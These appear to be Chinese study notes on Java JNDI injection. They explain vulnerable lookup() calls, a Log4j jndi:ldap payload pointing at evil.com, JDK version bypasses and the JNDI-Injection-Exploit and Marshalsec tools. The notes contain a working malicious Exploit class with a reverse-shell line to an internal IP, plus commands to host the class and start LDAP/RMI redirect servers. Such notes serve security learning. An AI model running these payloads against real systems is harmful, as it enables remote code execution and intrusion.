


## JNDI注入原理
1. 漏洞本质：lookup()参数可控
   正常代码：
    ```java
    String resource = "rmi://trusted-server/config";
    ctx.lookup(resource);  // 参数是写死的，安全
    ```
    漏洞代码：
    ```java
    String userInput = request.getParameter("config");  // 用户传来 "ldap://evil.com/exploit"
    ctx.lookup(userInput);  // 参数来自用户，危险！ 
    ```
2. 攻击效果：远程代码执行（RCE）
    攻击者搭建一个恶意服务器，当目标应用调用 lookup("ldap://evil.com/exploit") 时：
    - 目标应用连接到攻击者的服务器
    - 服务器返回一个指向恶意Java类的引用
    - 目标应用下载并执行该类
    - 攻击者的代码（如弹计算器、反弹shell）在目标服务器上运行
3. 触发条件：lookup() 的参数必须来自用户输入（或能被攻击者控制的数据源）
   ```java
    //示例
    logger.info("User login: " + username);  
    // 如果 username = "${jndi:ldap://evil.com/exploit}"
    // Log4j 解析后调用 JNDI lookup，触发漏洞
   ``` 
## Reference + trustURLCodebase
1. Reference（引用）
    作用： 告诉JNDI：“去这个 URL 下载 class 文件”
    ```java
    Reference ref = new Reference("Exploit", "Exploit", "http://evil.com/");
    // 意思是：去 http://evil.com/ 下载 Exploit.class
    ```
2.  trustURLCodebase（安全开关）
    默认状态：
    - JDK 8u121 之前：默认允许远程加载类（trustURLCodebase=true）
    - JDK 8u121 及之后：默认禁止（trustURLCodebase=false）
    高版本绕过（你暑假再学，先知道有这回事）：
    - LDAP 协议在某些版本仍有绕过方式
    - 高版本需要配合反序列化 gadget 等其他技术  
3. 攻击流程
   ```
   1. 攻击者让目标 lookup("ldap://evil.com/exploit")
   2. 恶意 LDAP 服务器返回 Reference，指向 http://evil.com/Exploit.class
   3. 目标下载 Exploit.class
   4. 目标实例化该类 → 构造函数或静态块中的恶意代码执行 → RCE   
   ``` 

## JNDI注入流程图（简化版）
```
攻击者发送恶意参数
        |
        |ldap://攻击者控制的域名/ecploit
        |
服务端接收参数并访问url
        |
        |ctx.lookup("ldap://攻击者控制的域名/ecploit");
        |
攻击者服务器返回指向恶意类的Reference给服务端
        |
        |Reference 指向：http://evil.com/Exploit.class
        |
服务端按照Reference指向的url去下载Exploit.class
        |
JVM加载并实例化恶意类
        |
        RCE
```
## 三种注入方式
### 版本限制时间线
**jdk8u121**：com.sun.jndi.rmi.object.trustURLCodebase 默认值从 true 改为 false
- RMI+Reference被限制
- LDAP天然支持返回 javaReference 条目，JDK 实现时最初没有同步加上安全开关
**jdk8u191**：com.sun.jndi.ldap.object.trustURLCodebase 也默认设为 false
- LDAP+Reference也被限制

### RMI+Reference（纯远程类加载）
```
客户端 lookup() 
→ RMI 注册表返回 Reference(stub)
→ 客户端从 http://attacker.com/Evil.class 加载
→ 实例化 → RCE
```
**限制点**：trustURLCodebase=false 后，JNDI 不再下载远程 class
### LDAP+Reference（换协议绕过）
为什么 LDAP 能晚一点被限制：
- 因为 LDAP 协议天然支持返回javaReference 条目，JDK 实现时最初没有同步加上安全开关。
- 8u191 后才把 com.sun.jndi.ldap.object.trustURLCodebase 也默认设为 false
### LDAP+Serialized（换攻击链绕过）
核心原理：
```
LDAP 返回的不是 Reference，而是 javaSerializedData 属性
↓
客户端收到后直接调用 readObject()
↓
触发 CC 链
```
**关键点**：trustURLCodebase 只控制 “URL 类加载器是否允许从远程加载类”，
而 readObject() 是 Java 原生反序列化，跟远程类加载没有关系。
### 方式选择决策图
```
目标 JDK 版本
│
├─ ≤ 8u121
│   └─ 直接用 RMI + Reference（最简单）
│
├─ 8u121 < version ≤ 8u191
│   └─ 用 LDAP + Reference
│
├─ 8u191 < version ≤ 8u241（近似）
│   └─ 用 LDAP + Serialized（需要 CC 链）
│
└─ ≥ 11 / 17
    └─ LDAP + Serialized + 绕过 JEP 290（需要更高阶技巧）
```
## JNDI利用工具
### JNDI-Injection-Exploit
**功能**：
- 自动启动HTTP服务（存放恶意类）
- 自动启动RMI服务（端口1099）
- 自动启动LDAP服务（端口1389）
  
**核心优势**
| 特性 | 说明 |
|------|------|
| 一键生成 | 一条命令输出所有可用的 JNDI 地址 |
| 自动托管 | 恶意类自动生成并托管，无需手动编写 Java 代码 |
| 双协议支持 | 同时输出 RMI 和 LDAP 两种协议的利用地址 |

适合场景：快速验证漏洞是否存在、快速获得反弹Shell

---

**基本命令**
```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "命令" -A "攻击者服务器ip"
```
执行后，工具会自动输出多个可用的JNDI地址


**注意事项**
- 端口占用：确保1099（RMI）、1389（LDAP）、8180（HTTP）端口未被占用
- JDK版本限制：JDK 8u191以上版本，LDAP+Reference方式会失效，需要结合反序列化利用
- 命令格式：复杂命令（如bash）需要加双引号
### Marshalsec
**功能**
一个“轻量级指路服务”工具，只负责启动RMI/LDAP服务，回答JNDI查询，告诉受害者“你要的类在这个HTTP地址”。恶意类需要自己准备。
**核心特点**
| 特性 | 说明 |
|------|------|
| 轻量灵活 | 只启动协议服务，不生成恶意类 |
| 高度可控 | 恶意类的逻辑完全自定义 |
| 学习价值高 | 帮助理解 JNDI 注入的每一步 |
| 多协议支持 | 支持 RMI、LDAP、Hessian 等多种 |

适合场景：理解底层原理、自定义复杂攻击逻辑、学习JNDI工作机制

---

**使用流程**
1. 编写恶意类
   ```java
        // 注意：类名要与文件名一致
        public class Exploit {
        // 静态代码块：类加载时自动执行
        static {
                try {
                // Windows弹计算器
                Runtime.getRuntime().exec("calc");
                // Linux反弹Shell用下面这行
                // Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/192.168.1.100/4444 0>&1"});
                } catch (Exception e) {
                e.printStackTrace();
                }
        }
        }   
   ``` 
2. 编译恶意类并启动HTTP服务
   ```bash
        # 编译
        javac Exploit.java

        # 启动HTTP服务（在Exploit.class所在目录）
        python -m http.server 8080
   ``` 
3. 启动Marshalsec服务
   ```bash
        # LDAP服务（推荐，兼容性更好）
        java -cp marshalsec-0.0.3-SNAPSHOT-all.jar \
        marshalsec.jndi.LDAPRefServer \
        "http://v:8080/#Exploit" 1389

        # RMI服务
        java -cp marshalsec-0.0.3-SNAPSHOT-all.jar \
        marshalsec.jndi.RMIRefServer \
        "http://192.168.162.1:8080/#Exploit" 1099
   ``` 
   参数详解
   - -cp：指定JAR包路径
   - marshalsec.jndi.LDAPRefServer：启动LDAP服务的主类
   - "http://IP:8080/#Exploit"：告诉受害者去这个地址下载Exploit.class
   - 1389：服务监听的端口    
### 两种工具对比
| 对比项 | JNDI-Injection-Exploit | Marshalsec |
|--------|------------------------|-------------|
| 恶意类生成 | ✅ 自动生成 | ❌ 需手动编写 |
| HTTP服务 | ✅ 自动启动 | ❌ 需手动启动（如 `python -m http.server`） |
| 协议服务 | ✅ 自动启动 RMI + LDAP | ✅ 可单独启动 RMI 或 LDAP |
| 学习曲线 | 低，开箱即用 | 中，需理解每一步 |
| 灵活性 | 低，只能执行命令 | 高，可自定义任意 Java 逻辑 |
| JAR包大小 | 较大（~10MB） | 较小（~2MB） |
